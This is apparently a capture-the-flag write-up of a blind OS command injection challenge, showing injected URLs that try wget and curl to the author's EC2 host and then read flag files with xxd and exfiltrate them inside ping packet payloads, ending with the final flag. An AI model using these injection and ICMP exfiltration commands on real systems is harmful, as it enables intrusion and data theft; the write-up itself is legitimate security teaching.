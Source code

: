 ## HACKIM8 - Web 3 - Blind OS command injection

In this interesting challenge, application is taking user input and passes it to a application code that runs a task on the underlying server. I have tried to execute simple OS commands but I could not able to see any response so immediately I have started my EC2 amazon server and force vulnerable app to send a request to my cloud server. I have tried below commands: 
   
      http://54.89.146.217/index.php?cmd=wget%20http://ec2-35-166-203-92.us-west-2.compute.amazonaws.com
      http://54.89.146.217/index.php?cmd=curl%20http://ec2-35-166-203-92.us-west-2.compute.amazonaws.com
 
 None of the above command worked for me. Either application was filtering word like wget, curl or it was not allowing any outbound connection however the last try worked for me and that was ping command:
 
      http://54.89.146.217/index.php?cmd=ping%20http://ec2-35-166-203-92.us-west-2.compute.amazonaws.com

I have started tcpdump on my cloud server and I was able to see ICMP packets.

![Alt text](https://github.com/sagarpopat/CTF-wirteup/blob/master/images/packet_1.PNG "Optional Title") 

I took the advantage of ping command I have tried to check if hping3 or scappy were installed on linux box but unfortunately none of them were present on server as I was not able to see any ICMP requests for below condition: 
       
       http://54.89.146.217/index.php?cmd=if test -e "/usr/bin/Scapy";then ping -c2 http://ec2-35-166-203-92.us-west-2.compute.amazonaws.com;fi;
       http://54.89.146.217/index.php?cmd=if test -e "/usr/sbin/hping3";then ping -c2 ec2-35-166-203-92.us-west-2.compute.amazonaws.com;fi;

Alright so after spending enought time, I was able to figure out below important points:

- OS Commands were being executed on the server side but it was not reflecting back in response. 
- Server was also not accepting few utilities/commands like `wget`,`hping3`,`Scapy`,`curl`,`http` and many more however it was accepting ping command so I need to read the flag file using some command and send that flag to my server through ICMP packet.

Before I execute any command blindly on CTF server, I thought to send few ICMP packets with some data from my local system to my cloud server.  

![Alt text](https://github.com/sagarpopat/CTF-wirteup/blob/master/images/ping_req.PNG "Optional Title") 

And immediatelly I was able to see "Hello World" in ICMP packet

![Alt text](https://github.com/sagarpopat/CTF-wirteup/blob/master/images/hello.PNG "Optional Title")


I quickly crafted command which will first read flag1 file and send that through ICMP packet. Below was my final attempt to read flagpart1.txt file:
 
    http://54.89.146.217/index.php?cmd=ping ec2-35-166-203-92.us-west-2.compute.amazonaws.com -p $(xxd -p /home/nullcon/flagpart1.txt)

Reading ICMP packets on my server using tcpdump
   
  ![Alt text](https://github.com/sagarpopat/CTF-wirteup/blob/master/images/flag1.PNG "Optional Title") 

Flag 1 from flagpart1.txt was '0omgth4t'. 

Reading flagpart2.txt file: 
   
    http://54.89.146.217/index.php?cmd=ping ec2-35-166-203-92.us-west-2.compute.amazonaws.com -p $(xxd -p /home/nullcon/flagpart2.txt)

Reading ICMP packets on my server using tcpdump

   ![Alt text](https://github.com/sagarpopat/CTF-wirteup/blob/master/images/flag2.PNG "Optional Title") 

Flag 2 from flagpart2.txt was 'aniceflag'. 
   
and our final flag(flagpart1+flagpart2) is
   
      flag{0omgth4taniceflag}
    
## Credits
- Shubham Mittal
- Sanjog Panda
- Archita Aparichita
- Pratap Chandra
- Chandrakant Nial
- Swaroop Yermalkar


